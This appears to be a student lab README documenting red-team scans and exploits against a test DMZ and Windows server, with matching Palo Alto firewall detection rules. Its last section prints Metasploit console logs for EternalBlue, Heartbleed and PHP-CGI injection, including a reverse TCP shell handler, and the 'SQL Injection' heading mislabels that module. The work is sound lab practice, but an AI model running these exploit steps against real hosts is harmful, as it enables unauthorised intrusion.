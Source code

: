 Red Test: Nmap against DMZ and Windows Server

### Set up alert in a Palo Alto firewall for detecting and responding to Nmap scans

**Blue Response**

- **Create a Security Profile**
  - In Objects > Security Profiles > Vulnerability Protection.
  - Add a New Profile named Nmap_Scan_Detection.
  - Added Signature Exceptions for Nmap Detection:
    - Selected multiple Nmap related signatures.
    - Set the Action to Block for each of these signatures.
  - Ensure that logging is enabled for the new security policy rule.
- **Verify and Tested**
  - Checked that Monitor > Logs > Threat to review the alerts generated by Nmap scan detections.
    
![ALT TEXT](https://github.com/Reenhaider/2024CyberProject/blob/main/img/Firewall-nmap-alert.PNG)
---


## Red Test: Attempt to block access to potentially malicious websites

**Website:** Malicious websites (hacker9.org)

- **Description:** Attempt to access hacker9.org

**Steps to Test:**

1. Update Block Lists: Ensure firewall is using up-to-date threat intelligence feeds and URL categories.
2. Configure URL Filtering: Set up URL filtering rules to block categories like malware, phishing, and suspicious sites.
3. Enable Logging: Make sure logging is enabled for blocked attempts to access malicious sites.
4. Select Test URLs: Choose URLs such as hacker9.org.
5. Perform Tests: Try accessing the selected test URLs from a client within the network.
6. Check Logs: Verify that the access attempts are logged and blocked by your firewall.

**Blue Response**

- **Firewall Configuration**
  - URL Filtering: Configured Palo Alto firewall's URL filtering settings are configured to block access to categories of sites that are considered risky or inappropriate.
  - Threat Prevention: Enable threat prevention features to block known malicious IP addresses and domains.
  - SSL Decryption: Implement SSL decryption to inspect HTTPS traffic for malicious content.

![ALT TEXT](https://github.com/Reenhaider/2024CyberProject/blob/main/img/URL-Filtering-paloalto-alert.PNG)
---

## Red Test: Nikto against DMZ Server

**Typical Nikto Scan Activities**

- **Banner Grabbing:**
  - Identifies the version of the web server (Apache) and other software components.
- **Vulnerability Checks:**
  - Scans for known vulnerabilities in the Apache web server, PHP, MySQL, and any web applications running on the server.
  - Looks for outdated software versions with known exploits.
- **Configuration Issues:**
  - Identifies misconfigurations such as directory indexing, enabled HTTP methods (like PUT, DELETE), and default files (e.g., index.php, index.html).
- **Sensitive File Detection:**
  - Searches for sensitive files and directories, such as configuration files (phpinfo.php, .htaccess), backup files (.bak, .old), and temporary files.
- **Common Web Application Vulnerabilities:**
  - Tests for vulnerabilities such as SQL injection, Cross-Site Scripting (XSS), Cross-Site Request Forgery (CSRF), and Local File Inclusion (LFI).
- **SSL/TLS Vulnerabilities:**
  - Checks for weak SSL/TLS configurations and vulnerabilities.
    
    ![ALT TEXT](https://github.com/Reenhaider/2024CyberProject/blob/main/img/Nikto-output.png)

### Set up alert in a Palo Alto firewall for detecting and responding to Nikto scans

**Blue Response**

- **Create a Security Profile**
  - In Objects > Security Profiles > Vulnerability Protection.
  - Add a New Profile named Nikto_Scan_Detection.
  - Added Signature Exceptions for Nikto Detection:
    - Selected any Nikto related signatures.
    - Set the Action to Block for each of these signatures.
  - Ensure that logging is enabled for the new security policy rule.
- **Verify and Tested**
  - Checked that Monitor > Logs > Threat to review the alerts generated by Nikto scan detections.

---

## Red tests using Metasploit CLI and selected payloads

### Eternal Blue

msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 192.168.100.200:4444
[*] 192.168.50.100:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[-] 192.168.50.100:445 - Rex::ConnectionRefused: The connection was refused by the remote host (192.168.50.100:445).
[*] 192.168.50.100:445 - Scanned 1 of 1 hosts (100% complete)
[-] 192.168.50.100:445 - The target is not vulnerable.
[*] Exploit completed, but no session was created.

### Heartbleed

msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > back
msf6 > use auxiliary/scanner/ssl/openssl_heartbleed
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 192.168.50.100
RHOSTS => 192.168.50.100
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > run
[*] 192.168.50.100:443 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

### SQL Injection

msf6 exploit(multi/http/php_cgi_arg_injection) > set RHOSTS 192.168.50.100
RHOSTS => 192.168.50.100
msf6 exploit(multi/http/php_cgi_arg_injection) > run
[*] Started reverse TCP handler on 192.168.100.200:4444
[*] Exploit completed, but no session was created.

msf6 exploit(multi/http/php_cgi_arg_injection) >
